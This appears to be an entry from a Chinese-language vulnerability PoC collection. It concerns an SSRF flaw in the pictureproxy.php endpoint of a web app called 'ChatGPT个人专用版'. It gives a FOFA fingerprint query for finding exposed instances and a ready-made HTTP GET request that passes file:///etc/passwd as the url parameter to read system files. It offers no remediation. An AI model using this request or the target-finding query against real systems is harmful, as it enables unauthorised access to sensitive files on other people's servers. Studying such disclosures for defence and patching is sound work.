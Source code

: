 # ChatGPT个人专用版 pictureproxy SSRF漏洞

**fofa**

```
title="ChatGPT个人专用版"
```

**一、漏洞简述**

ChatGPT个人专用版是一种基于人工智能的对话系统，旨在为用户提供个性化的交流体验。它能够理解和生成自然语言，帮助用户解决问题、获取信息或进行创意交流。通过不断学习和优化，ChatGPT个人专用版可以更好地适应用户的需求和偏好，提供更为精准和贴心的服务。其接口pictureproxy.php存在SSRF漏洞，攻击者可通过该漏洞获取系统敏感文件信息。

二、漏洞检测poc

```YAML
GET /pictureproxy.php?url=file:///etc/passwd HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2228.0 Safari/537.36
Connection: close


```

